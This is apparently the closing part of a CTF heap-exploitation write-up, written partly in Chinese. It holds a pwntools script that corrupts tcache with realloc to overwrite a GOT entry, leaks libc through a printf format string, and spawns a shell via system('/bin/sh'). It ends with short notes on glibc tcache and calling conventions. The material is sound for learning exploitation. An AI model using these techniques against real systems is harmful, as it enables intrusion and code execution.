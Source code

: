 ```python
    io.sendline("3")
    io.recvuntil("Index:")
    io.sendline(str(idx))

alloc(0, 0x18, "AAA")
realloc(0, 0, "")
realloc(0, 0x18, p64(elf.got["atoll"]))
alloc(1, 0x18, "BBB")

realloc(0, 0x28, "CCC")
free(0)
realloc(1, 0x28, "s"*0x10)
free(1)

alloc(0, 0x38, "AAA")
realloc(0, 0, "")
realloc(0, 0x38, p64(elf.got["atoll"]))
alloc(1, 0x38, "BBB")
 
realloc(0, 0x48, "CCC")
free(0)
realloc(1, 0x48, "s"*0x10)
free(1)

alloc(0, 0x38, p64(elf.plt["printf"]))
free("%21$llx")

libc_start_main_ret = int(r(12), 16)
libc_base = libc_start_main_ret - libc.symbols["__libc_start_main"] - 0xeb
system_addr = libc_base + libc.symbols["system"]
success("system address: " + hex(system_addr))
    
sla("Your choice: ", "1")
sla("Index:", "A\x00")
sa("Size:", "A"*15+"\x00")
sa("Data:", p64(system_addr))
free("/bin/sh\x00")

io.interactive()
```

## 总结：

ptmalloc，linux内存分配与释放机制

patchelf替换可执行文件llibc版本

libc2.27加入tcache bin，2.29 tcache结构中加入key，来检测double free

利用格式化字符串泄露libc基址 printf的`%21$llx`表示以16进制64位int的格式打印出第21个参数。

linux64位cdel调用，前6个参数存在寄存器中，其余用栈存储
